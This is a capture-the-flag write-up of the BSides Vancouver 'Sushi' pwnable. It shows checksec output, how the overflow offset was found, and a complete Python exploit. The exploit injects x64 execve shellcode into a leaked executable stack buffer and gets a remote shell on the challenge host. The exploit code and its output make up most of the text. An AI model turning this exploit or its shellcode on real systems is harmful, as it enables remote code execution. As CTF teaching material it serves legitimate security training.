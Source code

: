 ### Solved by barrebas 

At the very last minute, we decided to join BSides Vancouvers' CTF. Sushi was a 100 point pwnable. 

We're given the binary (and the libraries are available if need be -- really nice, no guessing). Upon running it, it gives us some address and asks for money:

```bash
Deposit money for sushi here: 0x7ffc068ccfe0
aaaaaaaa
Sorry, $0.97 is not enough.
```

It seems to take the first character `a` (0x61 or 97) and use that. After fruitlessly trying to trigger a format string vulnerability, I disassembled the binary and checked out it in `gdb-peda`.

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Okay, no protections whatsoever. This means that the stack is executable too. The idea of string format vulnerability was quickly replaced with a good old buffer overflow:

```bash
bas@tritonal:~/tmp/yvrctf/sushi-100$ python -c 'print "".join(["%04d" % x for x in range(200)])' | ./sushi
Deposit money for sushi here: 0x7ffd0aa1edb0
Sorry, $0.48 is not enough.
Segmentation fault (core dumped)
bas@tritonal:~/tmp/yvrctf/sushi-100$ gdb ./sushi core
...snip...
Core was generated by `./sushi'.
Program terminated with signal 11, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/i $rip
=> 0x4005f2:    ret    
gdb-peda$ x/2wx $rsp
0x7ffd0aa1edf8: 0x38313030  0x39313030
```

Upon supplying a large buffer, the program crashes. Apparently, the saved return address is overwritten with `00180019`, so now I had the offset. The program crashes upon executing the `ret` statement at `0x4005f2` because the address does not point to a valid memory location. 

```bash
bas@tritonal:~/tmp/yvrctf/sushi-100$ python -c 'print "A"*(18*4)+"BBBBCCCC"' | ./sushi
Deposit money for sushi here: 0x7ffdcfd360b0
Sorry, $0.65 is not enough.
Segmentation fault (core dumped)
bas@tritonal:~/tmp/yvrctf/sushi-100$ gdb ./sushi core
...snip...
Core was generated by `./sushi'.
Program terminated with signal 11, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/2wx $rsp
0x7ffdcfd360f8: 0x42424242  0x43434343
gdb-peda$ x/s 0x7ffdcfd360b0
0x7ffdcfd360b0:  'A' <repeats 72 times>, "BBBBCCCC"
```

What's more, each time upon running `sushi`, the program supplies the address of the buffer it is using! In other words, that's a nice place for shellcode!

The program uses `gets()` to get the input:

```bash
0x4005c5:  call  0x400480 <gets@plt>
```

This means that we can send null bytes, which we need to overwrite the saved return address with the address of our buffer. These things together (and the fact that the vulnerable binary is ran on a remote box) meant that it had to be run from a `socat` process:

```bash
$ socat TCP-LISTEN:4000,fork,reuseaddr EXEC:./sushi
```

Next was writing a simple exploit in python:

```python
from socket import *
import struct, telnetlib, re

def p(x):
    return struct.pack('<L', x)

def pQ(x):
    return struct.pack('<Q', x)
    
s=socket(AF_INET, SOCK_STREAM)
#s.connect(('localhost', 4000))
s.connect(('sushi.termsec.net', 4000))

buf = s.recv(1000)
stack_addr = int(re.search('(0x[0-9a-f]+)', buf).group(1), 16)

print "[~] stack addr: 0x%lx" % stack_addr

# simple x64 execve shellcode
shellcode = "\x31\xc0\48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
# payload must overflow saved return address on stack
payload = shellcode + "A" * (72 - len(shellcode))
# we're given the address of our (executable!) buffer on the stack, so use that as return address
payload += pQ(stack_addr) + "\n"

s.send(payload)

t = telnetlib.Telnet()
t.sock = s
t.interact()
s.close()
```

It ran locally after a bit of fine-tuning, so the proof was in the pudding:

```bash
bas@tritonal:~/tmp/yvrctf/sushi-100$ python ./sushi.py 
[~] stack addr: 0x7fffb3fc0480
Sorry, $0.49 is not enough.
cat flag.txt
flag{I_l3ft_my_wallet_in_#irc}
```

